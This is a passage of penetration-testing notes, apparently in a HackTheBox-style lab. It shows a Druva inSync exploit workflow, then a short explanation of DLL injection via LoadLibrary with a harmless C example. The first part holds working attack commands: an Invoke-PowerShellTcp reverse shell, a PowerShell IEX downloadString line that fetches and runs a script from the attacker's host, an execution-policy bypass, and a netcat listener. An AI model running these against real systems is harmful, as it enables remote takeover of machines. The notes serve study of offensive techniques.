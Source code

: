 ```
        Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443

        Modify the $cmd variable in the Druva inSync exploit PoC script to download our PowerShell reverse shell into memory.

        $cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.50:8080/shell.ps1')"

        Finally, start a Netcat listener on the attack box and execute the PoC PowerShell script on the target host (after modifying the PowerShell execution policy with a command such as Set-ExecutionPolicy Bypass -Scope Process).

        $ nc -lvnp 9443





                        //DLL Injection


        DLL injection is a method that involves inserting a piece of code, structured as a Dynamic Link Library (DLL), into a running process. This technique allows the inserted code to run within the process's context, thereby influencing its behavior or accessing its resources.

        DLL injection finds legitimate applications in various areas. For instance, software developers leverage this technology for hot patching, a method that enables the amendment or updating of code seamlessly, without the need to restart the ongoing process immediately. 


        -LoadLibrary

        LoadLibrary is a widely utilized method for DLL injection, employing the LoadLibrary API to load the DLL into the target process's address space.

        The LoadLibrary API is a function provided by the Windows operating system that loads a Dynamic Link Library (DLL) into the current process’s memory and returns a handle that can be used to get the addresses of functions within the DLL.

       
       
        #include <windows.h>
        #include <stdio.h>

        int main() {
        // Using LoadLibrary to load a DLL into the current process
        HMODULE hModule = LoadLibrary("example.dll");
        if (hModule == NULL) {
                printf("Failed to load example.dll\n");
                return -1;
        }
        printf("Successfully loaded example.dll\n");

        return 0;
        }







        #include <windows.h>
```